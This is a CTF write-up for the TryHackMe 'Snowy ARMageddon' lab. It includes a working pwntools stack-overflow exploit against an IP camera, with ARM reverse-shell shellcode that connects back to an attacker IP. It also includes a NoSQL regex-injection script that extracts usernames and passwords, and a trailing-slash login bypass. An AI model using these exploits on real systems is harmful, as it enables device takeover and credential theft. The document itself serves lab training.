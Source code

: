 # Snowy ARMageddon

This SideQuest can be found here: https://tryhackme.com/room/armageddon2r

## 1. What is the content of the first flag?

Starting of with a port scan on the provided IP address, we find port 22, 23, 8080 and 50628 which is definitely not a commonly found port.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1f52fcc7-0caf-4d1f-8084-c83dc51c7a7e)

Looking at it in the browser, we can see it's a Wireless Streaming Camera:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/161ebb0a-0906-4b5e-bfc7-a107759ae86c)

A quick google search for any exploits for this camera, we can see an ARM challenge which seems to match up with the ARM that's capitalized in the challenge description. So we must be on the right track.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/3b2f41f9-42e8-43c1-9e30-1bbefb722891)

The description and details of the challenge can be found [here](https://no-sec.net/arm-x-challenge-breaking-the-webs/). Within this blog post we find that the camera is vulnerable to a Stack Overflow and we already have a python script for it. The challenging part was getting my attacker IP converted to ARM shellcode properly. I was not able to do that but I collaborated with a talented hacker by the name [william-barros-costa](https://github.com/william-barros-costa) who was able to manually convert my VPN IP to the shellcode needed for the foothold.

```python
from pwn import *
import sys
   
HOST = str(sys.argv[1])
PORT = 50628
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\x01\x10\x21\xe0\xce\x10\x81\xe2\x01\x14\xa0\xe1\x5f\x10\x81\xe2\x01\x14\xa0\xe1\x06\x10\x81\xe2\x81\x13\xa0\xe1\x05\x10\x81\xe2\x81\x10\xa0\xe1\x04\x10\x2d\xe5'  #10.6.95.206
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```
Once inside the machine, we start enumerating (a lot) and soon-ish find a password in /var/etc/umconfig.txt:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b1ed27fe-8d2d-4329-adfa-89af01abea8b)

Y3tiStarCur!ouspassword=admin

We can use these creds to login the camera dashboard and see the first flag:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5abfaf94-19f7-4bdd-b4ea-dea68f2f59fa)

`THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}`

## 2. What is the content of the yetikey2.txt file?

Going back on port 8080, we find a seemingly unaccesable page:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2432afa3-5e4f-460b-9146-83cc57c112e3)

However, if we use `ffuf` to fuzz for files with any of the raft wordlists from seclists, but also add another slash at the end, we find that the login page is accessible:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/efdbb0b7-6345-4556-a1de-974da9b9969a)

Multiple different attempts were made to bypass the login and then we noticed this error which confirms a NoSQL database being used in the background:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/aca6f8da-edda-4f32-a61d-db2c1ea1a2fe)

I grabbed [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login) script from hacktricks and modified it a bit to start enumerating. As you can see from the commented code, I enumerated users first based on the number of characters in the password.

```python
import requests
import string

url = " http://10.10.29.186:8080/login.php/"
proxy = {"http":"http://127.0.0.1:8080"}
headers = {'Content-type': 'application/x-www-form-urlencoded'}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":""}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
            if 'Invalid' not in pr.text:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    # usernames = ['Blizzardson','Frostbite', 'Grinchenko', 'Iciclevich', 'Northpolinsky','Scroogestein', 'Tinselova'] #users found with exactly 20 chars in the password (.{20})
    # usernames = ['Frosteau'] #users found with less than 20 chars in the password (^.{1,19}$)
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":"^.{21,}$"} #regex to search users with more than 20 chars in the password
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
        if 'Invalid' not in pr.text:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)
```
After finding the usernames, the script automatically starts abusing the NoSQL injection to also get their passwords. The only one out of the ordinary seems to be the user `Frosteau` which has a password that's lower than 20 characters. Everyone else has the password set at 20 characters.

`Frosteau:HoHoHacked`

Using these credentials to login, we get redirects to the root website which again, tells us that we are forbidden. However, we need to keep in mind the slash trick at the end, which is a misconfiguration in the apache server. Adding the slash at the end of /index.php/ we get directed to the dashboard which has the content of the yetikey2.txt:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e1fb7ed1-4e8c-47b6-981e-fd62e3714c7f)

`2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK`
